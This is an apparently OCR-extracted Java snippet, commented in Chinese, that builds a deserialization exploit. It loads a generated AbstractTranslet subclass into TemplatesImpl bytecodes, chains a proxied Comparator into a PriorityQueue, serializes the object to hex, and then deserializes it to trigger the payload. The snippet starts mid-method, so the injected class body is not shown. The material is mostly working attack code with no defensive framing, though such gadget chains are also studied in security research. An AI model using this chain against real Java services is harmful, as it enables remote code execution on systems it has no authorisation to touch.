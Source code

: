 ```java
            cc.setName(randomClassName);  
            cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));  
            // 转换为bytes  
            byte[] classBytes = cc.toBytecode();  
            byte[][] targetByteCodes = new byte[][]{classBytes};  
            TemplatesImpl templates = TemplatesImpl.class.newInstance();  
            setFieldValue(templates, "_bytecodes", targetByteCodes);  
            // 进入 defineTransletClasses() 方法需要的条件  
            setFieldValue(templates, "_name", "name" + System.nanoTime());  
            setFieldValue(templates, "_class", null);  
            setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());  
  
            MyInvocationHandler myInvocationHandler = new MyInvocationHandler();  
            setFieldValue(myInvocationHandler, "type", Templates.class);  
            Comparator proxy = (Comparator) Proxy.newProxyInstance(MyInvocationHandler.class.getClassLoader(), new Class[]{Comparator.class}, myInvocationHandler);  
  
            PriorityQueue priorityQueue = new PriorityQueue<>(2);  
            priorityQueue.add(1);  
            priorityQueue.add(1);  
            Object[] queue = {templates, templates};  
  
            setFieldValue(priorityQueue, "queue", queue);  
            setFieldValue(priorityQueue, "comparator", proxy);  
  
  
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
            ObjectOutput objectOutput = new ObjectOutputStream(byteArrayOutputStream);  
            objectOutput.writeObject(priorityQueue);  
            String data = Utils.objectToHexString(priorityQueue);  
            System.out.println(data);  
            test(data);  
  
        }  
  
        private static void test(String data) throws Exception {  
            byte[] b = Utils.hexStringToBytes(data);  
            InputStream inputStream = new ByteArrayInputStream(b);  
            ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);  
            objectInputStream.readObject();  
        }  
        private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {  
            Field field = obj.getClass().getDeclaredField(fieldName);  
            field.setAccessible(true);  
            field.set(obj, value);  
        }  
  
    }
```
